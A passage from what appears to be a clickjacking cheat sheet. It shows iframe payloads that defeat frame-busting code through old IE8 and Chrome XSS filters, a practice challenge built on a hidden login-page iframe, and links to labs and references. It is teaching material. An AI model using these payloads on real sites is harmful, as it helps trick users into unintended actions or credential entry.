   ```html
  </script>
  ```
  Attacker View:
  ```html
  <iframe src=”http://target site/?param=<script>if”>
  ```

### Chrome 4.0 XSSAuditor filter

It has a little different behaviour compared to IE8 XSS filter, in fact with this filter an attacker could deactivate a “script” by passing its code in a request parameter. This enables the framing page to specifically target a single snippet containing the frame busting code, leaving all the other codes intact.
  Attacker View:
  ```html
  <iframe src=”http://target site/?param=if(top+!%3D+self)+%7B+top.location%3Dself.location%3B+%7D”>
  ```

## Challenge

Inspect the following code:
```html
<div style="position: absolute; opacity: 0;">
  <iframe src="https://legitimate-site.com/login" width="500" height="500"></iframe>
</div>
<button onclick="document.getElementsByTagName('iframe')[0].contentWindow.location='malicious-site.com';">Click me</button>
```

Determine the Clickjacking vulnerability within this code snippet. Identify how the hidden iframe is being used to exploit the user's actions when they click the button, leading them to a malicious website.


## Practice Environments

* [OWASP WebGoat](https://owasp.org/www-project-webgoat/)
* [Client Side Clickjacking Test](https://owasp.org/www-project-web-security-testing-guide/v41/4-Web_Application_Security_Testing/11-Client_Side_Testing/09-Testing_for_Clickjacking)


## References

- [Clickjacker.io - Saurabh Banawar - May 10, 2020](https://clickjacker.io)
- [Clickjacking - Gustav Rydstedt - April 28, 2020](https://owasp.org/www-community/attacks/Clickjacking)
- [Synopsys Clickjacking - BlackDuck - November 29, 2019](https://www.synopsys.com/glossary/what-is-clickjacking.html#B)
- [Web-Security Clickjacking - PortSwigger - October 12, 2019](https://portswigger.net/web-security/clickjacking)